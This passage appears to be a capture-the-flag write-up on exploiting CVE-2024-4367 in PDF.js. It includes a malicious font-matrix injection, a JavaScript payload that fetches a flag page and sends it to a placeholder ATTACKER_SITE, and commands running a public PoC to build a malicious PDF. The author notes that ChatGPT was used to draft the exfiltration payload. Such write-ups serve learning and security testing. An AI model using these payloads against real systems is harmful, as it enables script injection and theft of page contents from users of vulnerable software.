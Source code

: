 {% code overflow="wrap" %}

```js
<< /BaseFont /SNCSTG+CMBX12 /FontDescriptor 6 0 R /FontMatrix [ 1 2 3 4 5 (1\); alert\('origin: '+window.origin+', pdf url: '+\(window.PDFViewerApplication?window.PDFViewerApplication.url:document.URL\)) ] /Subtype /Type1 /Type /Font >>
```

{% endcode %}

So, how did I develop my XSS payload? I told ChatGPT I want to `fetch the contents of another page and then send them to another web server` 🤓

It initially provides some ridiculously long payloads, but through our iterative feedback (aka "shorter plz"), we guide it to produce a more reasonable one.

{% code overflow="wrap" %}

```js
fetch("/flag")
    .then((r) => r.text())
    .then((t) => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));
```

{% endcode %}

I got some errors and figured I wasn't escaping all the required characters, so I Googled `CVE-2024-4367 PoC` and came across another [PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox < 126, Firefox ESR < 115.11, and Thunderbird < 115.11.

> If pdf.js is used to load a malicious PDF, and PDF.js is configured with isEvalSupported set to true (which is the default value), unrestricted attacker-controlled JavaScript will be executed in the context of the hosting domain.

{% code overflow="wrap" %}

```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));"
```

{% endcode %}

The PDF was generated successfully, but I got an error about `bad substitution.` Turns out I just needed to escape some characters.

{% code overflow="wrap" %}

```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(\`ATTACKER_SITE/?c=\${encodeURIComponent(t)}\`));"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

{% endcode %}

When I upload the PDF and visit the URL, my browser console and web server logs are filled with errors.
